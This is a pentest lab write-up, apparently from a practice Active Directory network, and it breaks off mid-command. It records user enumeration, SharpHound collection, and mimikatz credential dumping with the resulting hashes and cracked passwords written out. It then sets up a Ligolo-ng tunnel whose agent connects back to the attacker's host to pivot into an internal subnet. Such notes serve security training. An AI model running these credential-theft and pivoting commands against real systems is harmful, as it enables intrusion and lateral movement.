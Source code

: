 ### Enumeration
- Look at C:\Users
	![[Pasted image 20250217130436.png]]
	- Found two more users:
		- celia.almeda
		- Mary.Williams
- Run SharpHound.ps1 and transfer file back over to Kali
	- `scp eric.wallows@192.168.158.147:C:/Users/eric.wallows/Desktop/<sharphound-zip-file> ./`
	![[Pasted image 20250217131931.png]]
	- Check users
	![[Pasted image 20250217132053.png]]
	- Two potential targets
	
- Run mimikatz
	- sekurlsa::logonpasswords
		![[Pasted image 20250217131421.png]]
		- Administrator:3c4495bbd678fac8c9d218be4f2bbc7b
		- Administrator:December31 (crackstation.net)
	- lsadump::sam
		![[Pasted image 20250217131528.png]]
		- Mary.Williams:9a3121977ee93af56ebd0ef4f527a35e
		
		![[Pasted image 20250217131557.png]]
		- support:d9358122015c5b159574a88b3c0d2071
		- support:Freedom1 (crackstation.net)
- Further Enumeration with PowerShell & PowerView.ps1
	- UserList
		![[Pasted image 20250217132329.png]]
### Pivoting
- Setup ligolo proxy server & agent
	```shell
	# Setup Ligolo Proxy Server on Kali
	kali@kali:~$ linux_amd64-proxy -selfcert -laddr 0.0.0.0:443
	
	# Transfer and connect to Kali via Ligolo Agent Client
	C:\Users\eric.wallows\Desktop> .\agent.exe -connect 192.168.45.156:443 -ignore-cert
	
	# Setup session on Ligolo Proxy Server
	ligolo-ng>> session
	ligolo-ng>> ifconfig
	
	# Add internal subnet to Kali IP Route
	kali@kali:~$ sudo ip route add 10.10.118.0/24 dev ligolo
	